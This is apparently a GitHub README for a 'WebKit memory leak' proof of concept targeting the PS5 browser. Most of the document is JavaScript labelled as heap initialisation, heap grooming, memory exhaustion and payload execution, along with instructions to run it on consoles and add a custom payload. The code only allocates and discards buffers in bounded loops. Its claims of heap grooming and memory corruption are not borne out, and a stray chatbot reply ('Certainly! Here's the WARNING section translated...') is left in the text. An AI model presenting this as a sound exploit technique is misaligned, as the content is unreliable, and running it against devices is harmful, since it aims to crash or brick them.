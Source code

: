 # Overflow WebKit Memory Leak PoC

## **DISCLAIMER**

**THIS REPOSITORY IS FOR TESTING PURPOSES ONLY!**  
A significant portion of this code might be incomplete or ineffective. If this vulnerability is ever fully exploited, it will likely be done by someone with far more expertise. I do not claim to be an expert in exploit development!

## Link
Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description
This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit that I've been developing. It is functional in its current form but still requires full exploitation. Below, you'll find the JavaScript code that outlines how the PoC operates, along with an explanation of each step.

## How it Works
The code operates in five key steps:

1. **Heap Initialization**: Memory is allocated in a controlled manner to prepare for the attack.
2. **Heap Grooming**: The memory is manipulated to create gaps for exploit insertion.
3. **Memory Exhaustion**: The system's memory resources are continuously allocated and cleared to exhaust available memory.
4. **Payload Execution**: The exploit's payload is executed, triggering memory corruption.
5. **Exploit Execution**: All steps are run sequentially to trigger memory exhaustion and ultimately crash the system.

## Code

```javascript
// Step 1: Initialize Controlled Memory
function initializeHeap() {
    let buffers = [];
    for (let i = 0; i < 2048; i++) { // Reduced allocations
        buffers.push(new ArrayBuffer(500000)); // Smaller blocks of memory
    }
    return buffers;
}

// Step 2: Groom the Heap
function groomHeap() {
    let tempArray = [];

    // Allocate and deallocate in patterns
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        let buffer = new ArrayBuffer(1000); // Allocate smaller blocks
        tempArray.push(buffer);
    }

    // Deallocate some of the buffers to create holes in the heap
    for (let i = 0; i < 1512; i++) { // Fewer deallocations
        tempArray[i] = null; // Free up space to create holes in the heap
    }

    return tempArray;
}

// Step 3: Memory Exhaustion Function
function memExh() {
    let bufferArray = [];
    for (let i = 0; i < 2048; i++) { // Reduced iterations
        bufferArray.push(new ArrayBuffer(900000)); // Allocate smaller buffers
        if (bufferArray.length > 512) { // Less aggressive clearing
            bufferArray = []; // Clear buffer array to exhaust memory
        }
    }
}

// Step 4: The Exploit Payload Function
function payload() {
    let largeString = "B".repeat(900000); // Smaller initial string
    let obj = {};
    let iterationCount = 0; // Counter to track the number of iterations

    while (true) {
        // String concatenation
        largeString += largeString;
        if (largeString.length > 100000000) { // Lower threshold for reset
            largeString = "B".repeat(900000); // Reset string to avoid overflow
        }
        memExh();
        iterationCount++;
        if (iterationCount > 64) break; // Control the number of iterations
    }
}

// Step 5: Perform the Exploit
function performExploit() {
    let controlledBuffers = initializeHeap(); // Initialize the heap
    let groomedHeap = groomHeap(); // Groom the heap

    // Start memory corruption
    memExh();

    // Run the payload
    payload();
}

// Execute the exploit
performExploit();
```

## Instructions

1. Copy and execute the above code on an exploitable PS5 (works up to version 9.60). This may not be applicable on PS4.
2. Remember, this is a PoC, and it should be used strictly for educational purposes.
3. Further testing and analysis are required to fully understand this vulnerability.
4. If needed, insert your custom payload inside the `payload` function.

## Disclaimer
This PoC is for educational purposes only. The author assumes no responsibility for any misuse of this code. 
Certainly! Here’s the **WARNING** section translated into English and formatted with markdown:

## **WARNING**

Running this Proof of Concept (PoC) comes with **serious risks** to the target device, including but not limited to:

1. **Device Bricking**: Incorrect or unmodified execution of this code could result in an **irreversible brick** of the system, rendering it completely unusable. This means the device might stop functioning entirely, with no chance of recovery.

2. **Data Loss**: This PoC exploits memory vulnerabilities, which could lead to file corruption or the loss of important data.

3. **Incompatibility**: The exploit may not work on all firmware versions or devices. Running it on an unsupported system version could cause unexpected and damaging consequences.

4. **Hardware Damage**: Continuous memory exhaustion and allocation could stress the hardware resources, potentially causing long-term physical damage to the device.

5. **Legal Risks**: Unauthorized use of exploits or vulnerabilities on devices you do not own, or without explicit consent, could violate local laws or licensing agreements.

**DO NOT** run this code on critical devices or on devices that you are not prepared to lose. Modify the PoC and fully understand its workings before executing it to minimize risks. **The author is not responsible for any damage caused by using this code.**


## Credit
The credits for the structure on which this tool is based were written by the aforementioned idebty, the credits are therefore assigned to him for having found the flaw, I have only expanded the operation!:
**Author**: [idebty](https://x.com/idebty?t=MT_ShLOs9wP9hcH3GNtkNA&s=09)  
